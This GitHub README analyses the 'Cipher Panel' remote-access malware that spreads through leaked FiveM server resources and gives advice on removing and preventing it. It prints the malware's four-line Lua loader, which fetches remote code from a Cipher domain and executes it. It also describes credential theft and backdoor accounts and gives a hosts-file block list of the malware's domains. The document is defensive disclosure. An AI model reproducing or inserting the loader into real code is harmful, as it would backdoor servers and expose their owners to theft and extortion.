 <p align="center">
# [#ProjectEndCipher Discord Server](https://discord.gg/kJdBQQcesA "https://discord.gg/kJdBQQcesA")
</p>

# Cipher Panel
Cipher is a paid Remote Execution/Administration Tool (RAT). Cipher's customers generate 4 lines of Lua code to inject into resources (many of them obfuscate the code) which will download remote code from the Cipher servers. We've found many leaked resources are infected with Cipher-Panel. This repository will talk more about how Cipher works.



# How Cipher Works
Cipher works by releasing infected code/resources to the FiveM public. Server owners/developers take the code (that they don't know is infected) and install it on their servers. Once the resource is installed and ran it will inject its code into other previously clean resources.

The initial infected code boils down to the following:

```Lua
PerformHttpRequest('https://Cipher-panel.me/_i/i?to=UNIQUECODE', function (e, d)
	local s = assert(load(d))
	if (d == nil) then return end 
	s() 
end)
```

The Unique Code in the URL request is the Cipher user that now has control of your server. Once this code is run it downloads the remote code (from Cipher) and runs it on line 4 as a function.

This is the basis on how most of Cipher works. It proceeds to download several more requests (found in the code returned by Cipher) and will continue until it injects more pre-existing resources.

After the code is run, it will upload some javascript and override existing files within the system builders directory. 

`resources\[system]\[builders]` 

The code will start propagating itself within all of your resources and files within the FiveM server installation to make it difficult to remove.

At this stage, its armageddon and all files within the server are compromised meaning files can be downloaded, uploaded, edited and viewed, including but not limited to just the server.cfg, sql credentials or even steal your cfx license keys. They’re also able to run remote code on the server which leads to the last step.

Cipher is a rat that has the capability of gaining full system administrator access to take over the host machine it's run on. It does this by using powershell to download a rat executable and also add / alter users to provide remote desktop access to your server. This back door approach also supports linux too. 

Cipher customers have been seen attempting to extort servers for money paid in crypto currency in exchange to deter the user of Cipher from deleting the server entirely. 

Read Infection Documentation for more information on what it expands into.



# How To Remove Cipher

If you have been infected with Cipher, this is what you must do:

Disconnect from the internet your server and access it via KVM (if possible).

Blacklist their domains on your firewall. This will slow them down however we have seen instances where they will use proxies to evade this but on most leaks this will help.

Edit the hosts file `C://windows/system32/drivers/etc/hosts` and add.

```
127.0.0.1 cipher-panel.me 
127.0.0.1 ciphercheats.com
127.0.0.1 keyx.club
127.0.0.1 dark-utilities.xyz
```

Install an antivirus software on the host machine to scan for any backdoors / RATs. 

Check the system admins on the machine to verify that no unauthorized accounts exist.

Change any passwords you have on the host machine to ensure that they don’t have access.

While your FiveM server is turned off, use the provided Python script to install a nullifier which will help prevent future infections of Cipher and tell you what files are infected. 
 
You can also install this code manually however we expect Cipher will attempt to patch this.

scheduler.lua


**Make sure you do not run your FiveM server as ROOT (Linux) or Administrator (Windows)**



# Other things you can do to prevent being attacked by Cipher

Consider adding the [Warden](https://discord.com/invite/jeFeDRasfs) to your discord server. Warden is a great resource that can help remove cheaters and leakers (people who participate in sharing leaked paid resources) from your community or support hack products like Cipher. 

Make sure to install the latest updates of whatever framework you are using for 

[ESX](https://github.com/esx-framework/esx-legacy) | [ESX Discord](https://discord.esx-framework.org)

[QBCore](https://github.com/qbcore-framework/qb-core) | [QBCore Discord](https://discord.gg/qbcore) 

Consider investing in a good anticheat for your server like [Phoenix Anticheat](https://discord.com/invite/pac) or [FiveEye](https://dsc.gg/FiveEye) or any other anti-cheat that you feel comfortable using. (Currently we are working with multiple anticheat providers to patch Cipher. The progress made will be shown here.) 

Buy resources from only reputable places that you feel comfortable purchasing from either Tebex listed stores or from places like [Modit](https://modit.store/), if you're unsure about a store, perhaps ask for guidance on the warden discord. 

Be extremely sketchy on code you get that is encrypted or downloaded from shady sources.

Lastly, the most important thing… DON'T USE LEAKED RESOURCES!


## Cipher Customers

If you are a customer of Cipher, we suggest canceling your subscriptions and getting a refund.
